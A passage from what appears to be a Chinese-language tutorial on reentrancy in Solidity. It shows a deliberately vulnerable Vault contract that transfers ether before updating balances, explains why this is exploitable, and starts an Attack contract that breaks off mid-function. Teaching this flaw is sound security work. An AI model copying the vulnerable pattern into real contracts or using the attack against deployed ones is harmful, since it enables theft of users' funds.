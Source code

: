 **技术定义**：当合约在更新状态之前进行外部调用时，攻击者利用外部调用的机会，在状态更新前再次调用同一函数，导致状态不一致。

### 🔍 脆弱的合约示例

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract Vault {
    // 内部账户
    mapping(address => uint256) public balances;

    /// @notice 存款函数
    function deposit() public payable {
        // 检测传入的金额是否大于0
        require(msg.value > 0, "value is not zero");
        // 将钱存入其中，并且更新余额
        balances[msg.sender] += msg.value;
    }

    /// @notice 提款函数 ❌ 存在重入漏洞！
    function withdraw(uint256 amount) public {
        uint256 userBalance = balances[msg.sender];
        
        // 检测账户余额是否大于amount
        require(balances[msg.sender] > amount, "the account is not enough");
        
        // ❌ 问题1：先转账
        // call是低级调用，如果失败了不会自动回滚
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "tx is failed");
        
        // ❌ 问题2：后更新余额
        balances[msg.sender] = userBalance - amount;
        
        // 注意：如果用 balances[msg.sender] -= amount; 
        // 会触发整数下溢检查，导致回滚
    }
}
```

**为什么有漏洞？**
1. ❌ **先转账**：`msg.sender.call{value: amount}("")` 会触发接收方的 `receive` 或 `fallback` 函数,这是一个单线程的操作，他不会执行接下来的操作，而是去执行receive函数中的
2. ❌ **后更新状态**：`balances[msg.sender]` 在转账后才更新
3. ⚠️ **攻击窗口**：在转账和更新余额之间，攻击者可以再次调用 `withdraw`

### 💣 攻击合约

```solidity
/// @title 攻击合约
contract Attack {
    Vault public immutable vault; // 使用 immutable 更节省 gas
    uint256 public constant ATTACK_AMOUNT = 1 ether; // 定义一个常量，方便管理

    constructor(address _vaultAddress) {
        vault = Vault(_vaultAddress);
    }

    /// @notice 攻击入口函数，调用时需发送 ATTACK_AMOUNT 的以太币
    function attack() public payable {
        // 确保发送的金额与我们计划提款的金额一致
        require(msg.value == ATTACK_AMOUNT, "Must send ATTACK_AMOUNT to start the attack");
        
        // 1. 存入资金，获得提款资格
```